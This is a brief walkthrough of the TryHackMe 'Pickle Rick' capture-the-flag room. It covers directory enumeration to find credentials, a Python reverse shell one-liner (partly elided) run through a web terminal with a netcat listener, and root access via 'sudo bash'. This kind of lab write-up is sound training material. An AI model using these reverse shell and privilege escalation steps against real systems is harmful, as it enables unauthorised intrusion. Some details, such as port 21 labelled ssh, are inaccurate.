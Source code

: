```yaml
---
title: Pickle Rick WalkThrough
permalink: /CTF/pickleRick
layout: page
tags: TryHackMe
---
```

# Picke Rick
# ![front](/images/pickleRick/front.png)
[https://tryhackme.com/room/picklerick](https://tryhackme.com/room/picklerick)

## Open Ports:
  - 21: ssh
  - 80: HTTP
  
## Port 80:
1. find sub-doamisn and directories usind **dirb** + **dirbuster**
   - ip/robots.txt **(we find passwd)**
   - ip/index **(username in the source Page)**
   - ip/portal.php **(found username and password)**
   
## Gaining Access:
 **We find a terminal inside the website**
 - Add the python reverse shell command
 	```
	 	python -c 'import ......os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
	 ```

 - listening via netcat will gain you access to the **BOX**
### 1st Flag:
![user_flag](/images/pickleRick/1st.png)
### 2nd Flag:
![user_flag](/images/pickleRick/2nd.png) 


## Privilege Escalation:
 - sudo -l
    - All users are sudp 
    	```
      		'sudo bash'
    	```
### 3rd Flag:
![rootflag.png](/images/pickleRick/3rd.png)
